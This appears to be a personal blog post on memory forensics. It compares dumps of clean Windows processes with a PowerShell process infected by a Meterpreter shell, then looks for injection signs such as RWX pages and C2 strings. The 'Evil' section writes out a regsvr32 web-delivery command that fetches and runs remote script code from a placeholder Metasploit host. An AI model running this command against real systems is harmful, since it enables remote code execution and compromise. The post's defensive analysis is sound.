#### Finding evil in memory

##### Is it Clean?

How can you know if a process is clear or not? Well I don't know, I'm no expert but I think we can see some patters if we look into some dumps of clean processes. This should give us some idea about clean process before injection for this lets see some clean process. I will look into the following processes.
    
    - Notepad++
    - Svchost
    - Velociraptor

All the dumps were obtained using process explorer full dump* in the same machine. 

##### Notepad++

First, we need to display information about the process. I executed all the tests on a Windows 10 VM. 



Lets now see the process threads as we can see all the threads have names and we can follow every one fo this to see what the thread does.



Now looking at the modules there isn't something out of the ordinary.



The process stack also doesn't show any weird text or instruction



Finally, let's look at the pages of the process and look for a page that has executed read write permissions. A classic sign of process injection. As expected nothing.



I wanted to explore more about this, but let's go directly to an example of evil.

##### Evil

For this test, I used Metasploit and used a Meterpreter shell. To gain access, I used a web delivery that requieres the execution of the following command, similar to what a dropper would do. 

regsvr32 /s /n /u /i:http://\[metaploit url\] scrobj

with this, the first process that got infected was one that executed the payload. In this case, I run it on a powershell process.



Displaying the threads give us a better view of what is running, and we can find some suspicious indicator on this. For instance, the threat 0x1330 doesn't have the stack function a indicator of process injection. 



We can see that there are no modules on the infected process. Well this is normal, I dump clean PowerShell processes and got the same results. This only shows that we need to understand what is normal or clean vs what is suspicious.



I need to get more details on our assessment, we look at the pages and see that there are pages with read, write and execute. This give us a better idea where to look for indicator or malicious code.



In this case, I can start looking for some indicator on memory. In this case, maybe we know that the machines is using http to comunicate to the C2 server. We can look for the strings that contain "http" and display them to find the address of the C2.



Bonus points, we also found the command that was executed.



##### NOTE

* According to DebugPrivilege, during an incident you will normally receive minidump with full memory. The reasoning is: ["that it includes all the readable memory in a process's address space."](https://x.com/DebugPrivilege/status/1750780250491851038?s=20). I did this blog before learning this so next blog will follow this advice.

[def]: https://x.com/DebugPrivilege/status/1750780250491851038?s=20